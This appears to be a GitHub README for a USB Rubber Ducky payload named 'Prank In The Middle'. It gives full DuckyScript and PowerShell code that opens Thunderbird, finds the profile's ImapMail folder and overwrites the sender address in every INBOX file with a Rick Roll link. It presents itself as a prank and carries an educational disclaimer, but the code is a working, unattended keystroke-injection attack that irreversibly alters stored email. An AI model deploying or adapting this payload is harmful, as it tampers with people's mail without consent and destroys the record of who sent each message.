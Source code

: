 # Prank In The Middle - Thunderbird

The name of the payload `Prank In The Middle` is named after the pun Prank + Man In The Middle in that this operation, in some ways, can remotely be configured as a MITM attack but since it was created specifically for playful purposes then here is the reason for the union with the word Prank.

**Category**: Prank

**Plug-And-Play** ^^

## Index

- [Description](#description)
- [Requirements](#requirements)
- [How the Program Works](#how-the-program-works)
- [Code Details](#code-details)
    - [System Detection && Short Start DELAY](#system-detection--short-start-delay)
    - [Navigating in Thunderbird](#navigating-in-thunderbird)
    - [Opening PowerShell and Email Manipulation](#opening-powershell-and-email-manipulation)
    - [The Regex](#the-regex)
- [Notes](#notes)
- [Credits](#credits)

## Description

This program automates a series of actions on a Windows system (*tested on Windows 10 but should works in Windows 11*) to manipulate the contents of emails found in a Thunderbird profile. Specifically, it identifies emails in the `INBOX` file of each configured email account and replaces the sender's email addresses with a fictitious address `Rick.Roll@tinyurl.com/prinkrollme` where `prinkrollme` is the union of the words `Prank`, `Rick Roll` and `Me` (*this one was necessary becouse prinkwoll era già stato preso* **:c** *so sad...* ) all compressed into the link `tinyurl.com/prinkrollme` ([*3° note*](#notes)) that redirect to the YouTube video `https://www.youtube.com/watch?v=xMHJGd3wwZk`.

![](./1.PNG)

## Requirements

- A Windows system with Thunderbird installed.
- Access to PowerShell.
- Permissions to run code in Powershell

## Test Environment

- Thunderbird 115.11.1 (64 bit)
- Windows 10 Pro

## How the Program Works

1. **System Detection:** The program detects if the system reflects the CAPSLOCK state and sets a dynamic delay based on this.
2. **Opening Thunderbird:** Uses a series of commands to open Thunderbird and navigate to the profile folder settings.
3. **Copying the Profile Folder Path:** Copies the profile folder path to the clipboard.
4. **Opening PowerShell:** Opens a PowerShell window and navigates to the `ImapMail` folder of the Thunderbird profile.
5. **Email Manipulation:** Uses PowerShell to:
   - Find all `INBOX` folders within `ImapMail`.
   - Read the contents of the emails in `INBOX`.
   - Replace the sender addresses with `Rick Roll <Rick.Roll@tinyurl.com/prinkrollme>`.
   - Save the modified content back to the original email files.

## Code Details

### System Detection && Short Start DELAY

```plaintext
EXTENSION DETECT_READY
    REM VERSION 1.1
    REM AUTHOR: Korben
    ...
    DEFINE #RESPONSE_DELAY 25
    DEFINE #ITERATION_LIMIT 120

    VAR $C = 0
    WHILE (($_CAPSLOCK_ON == FALSE) && ($C < #ITERATION_LIMIT))
        CAPSLOCK
        DELAY #RESPONSE_DELAY
        $C = ($C + 1)
    END_WHILE
    CAPSLOCK
END_EXTENSION
```

### Navigating in Thunderbird

```plaintext
WIN r
STRING thunderbird
ENTER
DELAY 1000
REPEAT 4 TAB
ENTER
DELAY 500
REPEAT 2 UPARROW
ENTER
DELAY 500
REPEAT 3 UPARROW
ENTER
DELAY 500
REPEAT 11 TAB
ENTER
DELAY 500
REPEAT 4 TAB
SPACEBAR
ENTER
CTRL c
ALT F4
```

### Opening PowerShell and Email Manipulation

```plaintext
WIN r
STRING powershell
ENTER
DELAY 1500
STRING cd 
CTRL v
ENTER

STRINGLN
    cd ImapMail
    $directories = Get-ChildItem -Directory | Select-Object FullName
    foreach ($dir in $directories) {
        $newPath = $dir.FullName -replace '\\', '/'
        $newPath += "/INBOX"
        if (Test-Path $newPath) {
            $emails = Get-Content -Path $newPath -Raw
            $modifiedEmails = $emails -replace "From:\s.*\s<(?:[a-z0-9!#$%&'*+/=?^_`{|}~-]+(?:\.[a-z0-9!#$%&'*+/=?^_`{|}~-]+)*|`"(?:[\x01-\x08\x0b\x0c\x0e-\x1f\x21\x23-\x5b\x5d-\x7f]|\\[\x01-\x09\x0b\x0c\x0e-\x7f])*`")@(?:(?:[a-z0-9](?:[a-z0-9-]*[a-z0-9])?\.)+[a-z0-9](?:[a-z0-9-]*[a-z0-9])?|\[(?:(?:(2(5[0-5]|[0-4][0-9])|1[0-9][0-9]|[1-9]?[0-9]))\.){3}(?:(2(5[0-5]|[0-4][0-9])|[1-9]?[0-9])|[a-z0-9-]*[a-z0-9]:(?:[\x01-\x08\x0b\x0c\x0e-\x1f\x21-\x5a\x53-\x7f]|\\[\x01-\x09\x0b\x0c\x0e-\x7f])+)\])>", "From: Rick Roll <Rick.Roll@tinyurl.com/prinkrollme>"
            Set-Content -Path $newPath -Value $modifiedEmails -Force
        }
    }
END_STRINGLN
DELAY 1000
ALT F4
```

### The Regex

The regex was not created from scratch but was taken from the discussion “[How can I validate an email address using a regular expression?](https://stackoverflow.com/questions/201323/how-can-i-validate-an-email-address-using-a-regular-expression)” posted on **StackOverflow**.

```plaintext
(?:[a-z0-9!#$%&'*+/=?^_`{|}~-]+(?:\.[a-z0-9!#$%&'*+/=?^_`{|}~-]+)*|`"(?:[\x01-\x08\x0b\x0c\x0e-\x1f\x21\x23-\x5b\x5d-\x7f]|\\[\x01-\x09\x0b\x0c\x0e-\x7f])*`")@(?:(?:[a-z0-9](?:[a-z0-9-]*[a-z0-9])?\.)+[a-z0-9](?:[a-z0-9-]*[a-z0-9])?|\[(?:(?:(2(5[0-5]|[0-4][0-9])|1[0-9][0-9]|[1-9]?[0-9]))\.){3}(?:(2(5[0-5]|[0-4][0-9])|[1-9]?[0-9])|[a-z0-9-]*[a-z0-9]:(?:[\x01-\x08\x0b\x0c\x0e-\x1f\x21-\x5a\x53-\x7f]|\\[\x01-\x09\x0b\x0c\x0e-\x7f])+)\])
```

The only difference is the addition of `**From: <...>**` which reduces to just the email addresses that sent the emails and not all addresses detected in the file that might depict other references

```plaintext
From:\s.*\s<...>
```

## Notes

1) This program was created for educational and demonstrative purposes. Unauthorized alteration of emails is illegal, and violating others' privacy is a crime.
2) Ensure you have the necessary permissions before running any script that modifies personal or sensitive data.
3) Considering [Staged Payloads](https://github.com/hak5/usbrubberducky-payloads?tab=readme-ov-file#staged-payloads), generally, it is not possible to include code that downloads from external sources. In this case, however, the setup involves a redirect to a YouTube video, which has been conveniently shortened using `tiny.url`. It is important to note that this redirect can be modified, and I strongly recommend changing it to a personal link for your security. While I assure you that I will never alter the link, no one can guarantee that I won't be compromised, allowing someone else to alter the redirect. It is always advisable and a good practice to never use links found online without understanding the actual redirect and replacing it with your own link.

## Credits

<h2 align="center"><a href="https://aleff-gitlab.gitlab.io/">Aleff</a></h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
    <td align="center" width="96">
      <a href="https://www.linkedin.com/in/alessandro-greco-aka-aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/linkedin.png?raw=true width="48" height="48" />
      </a>
      <br>Linkedin
    </td>
  </tr>
</table>
</div>